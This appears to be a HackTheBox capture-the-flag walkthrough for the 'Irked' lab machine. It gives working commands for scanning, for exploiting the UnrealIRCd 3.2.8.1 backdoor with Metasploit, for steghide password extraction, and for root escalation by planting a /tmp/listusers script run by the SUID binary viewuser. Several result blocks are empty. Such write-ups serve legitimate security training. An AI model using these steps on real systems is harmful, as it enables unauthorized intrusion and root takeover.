





## Introduction

Irked is a medium-difficulty machine on HackTheBox that involves exploiting a backdoor in the UnrealIRCd service to gain initial access and leveraging SUID binaries for privilege escalation. This walkthrough will guide you through the process of compromising the Irked machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- $ip > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-06 04:20 EST
Nmap scan report for 10.10.10.117
Host is up (0.33s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34818/udp   status
|   100024  1          38670/tcp   status
|   100024  1          47035/udp6  status
|_  100024  1          49457/tcp6  status
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.54 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 6.7p1
- **HTTP (80):** Apache httpd 2.4.10
- **IRC (6697, 8067):** UnrealIRCd

### Web Enumeration

Visiting the HTTP service on port 80 revealed a static image with a smiley emoji. We added `irked.htb` to our `/etc/hosts` file to resolve the domain.


**Directory Brute-Forcing:**

Using `ffuf`, we discovered a directory named `manual`, which is typical Apache documentation.

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://irked.htb/FUZZ
```



**Key Directory Identified:**

- `/manual`

## Exploiting UnrealIRCd

### Identifying the Vulnerability

The Nmap scan revealed an UnrealIRCd service running on ports 6697 and 8067. Researching UnrealIRCd vulnerabilities identified a backdoor command execution vulnerability in version 3.2.8.1.


**Exploit Analysis:**

The exploit leverages a backdoor in the UnrealIRCd service, allowing arbitrary command execution by sending a specially crafted payload.

### Gaining Initial Access

Using the Metasploit module `exploit/unix/irc/unreal_ircd_3281_backdoor`, we gained a shell on the machine.

**Metasploit Module Execution:**

```bash
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
```

**Reverse Shell Obtained:**


### Establishing User Access

We found the `user.txt` flag in `/home/djmardov/Documents/user.txt` but lacked the necessary permissions to read it. Further enumeration revealed a `.backup` file in the same directory.

**Backup File Contents:**



The `.backup` file contained a password hint for steganography. Using `steghide`, we extracted hidden data from the `irked.jpg` image.

**Steghide Extraction:**

```bash
steghide extract -sf irked.jpg
```

**Extracted Data:**



Using the extracted password, we logged into the `djmardov` account via SSH.

**SSH Access:**

```bash
ssh djmardov@10.10.10.117
```

**User Shell Obtained:**


## Privilege Escalation

### Enumerating SUID Binaries

We identified a suspicious SUID binary `/usr/bin/viewuser`.

**SUID Binary:**


### Exploiting the SUID Binary

The `/usr/bin/viewuser` binary attempted to execute a file named `listusers` in the `/tmp` directory. We created a malicious `listusers` script to gain a root shell.

**Malicious Script:**

```bash
echo "/bin/bash" > /tmp/listusers
chmod +x /tmp/listusers
```

**Executing the Binary:**

```bash
/usr/bin/viewuser
```

**Root Shell Obtained:**



## Conclusion

The Irked machine on HackTheBox provided a comprehensive challenge, encompassing service enumeration, UnrealIRCd exploitation, and SUID privilege escalation. By methodically enumerating services, exploiting discovered vulnerabilities, and leveraging SUID binaries, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.

